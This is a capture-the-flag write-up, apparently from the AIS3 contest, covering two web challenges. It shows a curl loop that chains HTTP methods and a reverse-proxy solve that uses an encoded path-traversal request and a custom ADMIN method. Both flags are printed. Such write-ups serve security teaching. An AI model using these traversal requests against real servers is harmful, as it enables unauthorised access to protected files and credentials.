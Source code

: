 ## web 
### Secret message/100
> One secret person embeds a secret message in the website. Could you find the message?
> 
> http://srv02.ctf.ais3.org:8887/

![](https://i.imgur.com/pThCerf.png)

```shell
potocol=GET

i=0
while [ $i -lt 100 ]; do
	
	curl http://srv02.ctf.ais3.org:8887/ -i -X $potocol >> flags.txt 
	potocol=$(curl http://srv02.ctf.ais3.org:8887/ -i -X $potocol | grep Next | cut -f 2 -d ' ' | tr -d "\r")

	echo >> flags.txt 

	i=$[$i+1]
done
```
然後我用手拼起來...

#### Flag
```
AIS3{HtTpMe5h0dI5FunaNdGo0DXDdDdDDDx!}
```

----
### Reverse proxy/200
> Bob setup a simple reverse proxy, and configured some passwords.
> Unfortunately, he lost the password. Could you please help him to find it out?
> [http://ctf.ais3.org/files/web2_main.py](https://drive.google.com/file/d/1PbutKLTmobnLE8BeUWUUtLDBBd0iJOEk)
> 
> http://srv02.ctf.ais3.org:8787/


這題一開始有提供 python 的程式，可以把它執行起來，會比較好研究

在程式中可以看到，編輯中
```shell
curl http://srv02.ctf.ais3.org:8787/%2e%2e/%2e%2e/%2e%2e/password/wa -X POST > /dev/null
curl http://srv02.ctf.ais3.org:8787/wa -X ADMIN -d 'QAQ'
```

#### Flag
```
AIS3{f1aSk_pr0Xy_5Erver_15_N1Ce!!}
```
